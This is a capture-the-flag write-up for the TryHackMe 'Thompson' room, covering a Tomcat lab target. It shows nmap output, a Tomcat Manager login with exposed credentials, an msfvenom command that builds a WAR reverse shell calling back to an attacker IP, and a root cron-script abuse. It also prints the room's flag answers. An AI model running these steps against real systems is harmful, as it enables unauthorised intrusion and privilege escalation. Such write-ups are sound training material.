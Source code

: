 ```yaml
---
title: "Thompson - TryHackMe"
author: Ludovic COULON
date: 2020-06-07
hero: ./images/hero.png
excerpt: "Writeup for the Thompson room on TryHackMe"
---
```


[TryHackMe | Thompson](https://tryhackme.com/room/bsidesgtthompson)
Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.221.95
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G+8EJNXze3WPjXsC54jYeO0lp2SGq+sauzNvmWrHcrLKHtugMUQmkS9gD/p4zx4LjuG0WKYYeyLybs4WrTTmCU8PYGgmud9SwrDlEjX9AOEZgP/gj1FY+x+TfOtIT2OEE0Exvb86LhPj/AqdahABfCfxzHQ9ZyS6v4SMt/AvpJs6Dgady20CLxhYGY9yR+V4JnNl4jxwg2j64EGLx4vtCWNjwP+7ROkTmP6dzR7DxsH1h8Ko5C45HbTIjFzUmrJ1HMPZMo9ss0MsmeXPnZTmp5TxsxbLNJGSbDv7BS9gdCyTf0+Qq1
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZFhZ3wY5EWj5L7ylSj+bx5pwaiEgU/Velkp4ZWXM//thL6K1lAAPGLxHMM=
|   256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33

8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/gQ8AzdM.png" alt="blog_image" />
</div>

Let's try the "manager app" button

<div className="Image__Medium">
  <img src="https://imgur.com/Ty59zwz.png" alt="blog_image" />
</div>

Well, I tried the cancel button because I don't have any credentials

<div className="Image__Medium">
  <img src="https://imgur.com/0wnAZv3.png" alt="blog_image" />
</div>

For some obscure reason (maybe bad configuration) there is a password and a username let's try it ! 🤨

<div className="Image__Medium">
  <img src="https://imgur.com/x0PrhCR.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/7CTEfM6.png" alt="blog_image" />
</div>

Well that worked let's see if there is a way to upload some reverse shell 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/n7GjOi7.png" alt="blog_image" />
</div>

I noticed a WAR file uploader let's search something on github/google

[Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

```bash
➜  TryHackMe msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.228 LPORT=1234 -f war > shell.war
```

<div className="Image__Medium">
  <img src="https://imgur.com/FwO3JC4.png" alt="blog_image" />
</div>

### #1 user.txt

```bash
39400c90bc683a41a8935e4719f181bf
```

### #2 root.txt

```bash
$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

$ bash id.sh
id.sh: line 2: test.txt: Permission denied

$ cat id.sh
#!/bin/bash
id > test.txt

$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

If we copy the content root key on the [id.sh](http://id.sh) it should be executed with root privileges let's try that ! :D

```bash
echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

```bash
# Its a cron job its gonna take some time..
$ cat id.sh
cp /root/root.txt /home/jack/root.txt

$ ls
id.sh  root.txt  test.txt  user.txt

$ cat root.txt
d89d5391984c0450a95497153ae7ca3a
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
